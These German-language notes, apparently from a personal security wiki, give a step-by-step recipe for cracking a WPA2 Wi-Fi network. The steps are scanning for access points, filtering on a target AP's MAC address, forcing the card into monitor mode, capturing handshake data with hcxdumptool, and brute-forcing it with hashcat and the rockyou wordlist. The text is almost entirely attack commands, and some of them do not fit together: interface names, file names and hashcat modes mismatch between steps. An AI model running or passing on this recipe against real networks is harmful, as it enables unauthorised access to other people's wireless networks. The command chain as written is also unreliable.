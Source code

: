 ### Access Points ermitteln
`$ sudo iwlist scanning`
MAC-Adressen der APs in Datei speichern:
`A004603991A5` -> filter.txt

### Monitor Mode
Info:
`$ iwconfig`
Alternativ zu airmon-ng in [AirCrack](AirCrack.md):
```bash
$ sudo systemctl stop wpa_supplicant.service
$ sudo systemctl stop network-manager.service

$ sudo ip link set wlan0 down
$ sudo iw dev wlan0 set type monitor
$ sudo ip link set wlan0 up
$ sudo iw dev
```

### Durchführung
1. hcxdumptool
`$ sudo hcxdumptool -o test.pcapng -i wlan0mon --filtermode=2 --filterlist=filter.txt --enable_status=1`
- -o test.pcapng
	Ausgabedatei in "pcapng" Format
- -i wlan0mon
	Interface
- --filtermode=2
	Gibt an, wie die Mac-Filterliste zu verwenden ist. 1 (default) = Alle AP auf der Liste ignorieren, 2 = Nur die AP der Liste beachten.
- --filterlist=filter.txt
	Gibt die zu verwendende Filter-Liste an
- enable_status=1
	Ausgabe des Programmstatus auf der Konsole. 1 (default) = aktiviert, 0 = deaktiviert
2. HashCat
- Aufbereitung der Datei:
	`$ sudo hcxpcaptool -z capture.16800 capture.pcapng`
- Brute-Force-Attacke:
	`$ hashcat.exe -m 2500 capture.hccapx rockyou.txt`

Quelle: https://sarwiki.informatik.hu-berlin.de/WPA2-Angriff